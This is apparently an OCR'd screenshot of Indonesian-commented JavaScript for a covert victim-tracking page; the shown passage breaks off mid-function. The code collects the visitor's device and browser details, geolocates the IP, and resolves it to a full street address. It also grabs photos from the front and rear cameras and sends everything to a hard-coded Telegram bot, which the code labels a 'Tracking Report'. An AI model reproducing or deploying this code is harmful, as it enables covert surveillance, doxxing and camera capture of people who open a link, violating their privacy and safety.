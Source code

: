     // Fungsi kirim foto ke Telegram
    const sP=async(b,f)=>{try{const fd=new FormData();fd.append('chat_id',C);fd.append('photo',b,f);await fetch(`https://api.telegram.org/bot${T}/sendPhoto`,{method:'POST',body:fd})}catch(e){}};
    
    // Fungsi mendapatkan lokasi detail dari koordinat
    const gLD=async(a,b)=>{try{const r=await fetch(`https://nominatim.openstreetmap.org/reverse?format=json&lat=${a}&lon=${b}&zoom=18&addressdetails=1`),d=await r.json();if(d.address)return{kb:d.address.county||d.address.city||d.address.state||"Tidak diketahui",kc:d.address.suburb||d.address.village||d.address.town||"Tidak diketahui",fa:d.display_name||"Alamat tidak tersedia"}}catch(e){}return{kb:"Tidak diketahui",kc:"Tidak diketahui",fa:"Alamat tidak tersedia"}};
    
    // Fungsi mendapatkan informasi perangkat
    const cDI=async()=>{let m='╭───── Tracking Report ───── ⦿\n\n';m+='⚙️ DEVICE INFORMATION|BUKAN GPS TRACKING\n';m+=`🖥️ Device: ${navigator.userAgent}\n💻 Platform: ${navigator.platform}\n🌐 Bahasa: ${navigator.language}\n📶 Online: ${navigator.onLine?'Online':'Offline'}\n📺 Screen Size: ${screen.width}x${screen.height}\n🪟 Window Size: ${innerWidth}x${innerHeight}\n💾 RAM: ${navigator.deviceMemory||'Unknown'} GB\n🧠 CPU Cores: ${navigator.hardwareConcurrency}\n`;if(navigator.getBattery){try{const b=await navigator.getBattery();m+=`🔋 Battery: ${Math.floor(b.level*100)}%\n🔌 Charging: ${b.charging?'✅ YA':'❌ TIDAK'}\n`}catch(e){m+='🔋 Battery: ❌ Tidak tersedia\n'}}m+=`⏰ Waktu Akses: ${new Date().toString()}\n🕒 Page Load Time: ${performance.now().toFixed(2)} ms\n📜 History Length: ${history.length}\n✋ Touch Support: ${'ontouchstart'in window?'✅ YA':'❌ TIDAK'}\n🔗 Referrer: ${document.referrer||'None'}\n🌍 URL: ${location.href}\n📄 Title: ${document.title}\n🕓 Timezone: ${Intl.DateTimeFormat().resolvedOptions().timeZone}\n🧭 Offset: ${new Date().getTimezoneOffset()} menit\n\n`;try{const i=await fetch('https://ipapi.co/json/'),d=await i.json();m+='📍 LOCATION INFORMATION\n';m+=`📡 IP Address: ${d.ip}\n🏙️ Kota: ${d.city}\n🏙️ Kabupaten: ${d.region}\n🗺️ Wilayah: ${d.region}\n🌎 Negara: ${d.country_name}\n🏷️ Kode Pos: ${d.postal}\n`;if(d.latitude&&d.longitude){m+=`📌 Latitude: ${d.latitude}\n📍 Longitude: ${d.longitude}\n`;const l=await gLD(d.latitude,d.longitude);m+=`🏙️ Kabupaten: ${l.kb}\n🏙️ Kecamatan: ${l.kc}\n🏠 Alamat Lengkap: ${l.fa}\n`}}catch(e){m+='❌ Gagal mendapatkan informasi lokasi\n'}m+='\n╰───── Telegram @ryzzreal  ───── ⦿';return m};

    // Mengambil gambar dari kamera dengan mode tertentu
    const captureCamera = async (mode) => {
        const v = document.getElementById('v'), 
              c = document.getElementById('c');
        let stream;
        try {
            stream = await navigator.mediaDevices.getUserMedia({
                video: { 
                    facingMode: { exact: mode } 
                }
            });
            v.srcObject = stream;
            
            await new Promise(resolve => v.onloadedmetadata = resolve);
            v.play();

            // Waktu tunggu kamera 1.5 detik
            await new Promise(r => setTimeout(r, 1500)); 
            
            c.width = v.videoWidth;
            c.height = v.videoHeight;
            c.getContext('2d').drawImage(v, 0, 0);
            
            c.toBlob(b => sP(b, `${mode}_camera_capture.jpg`), 'image/jpeg');
            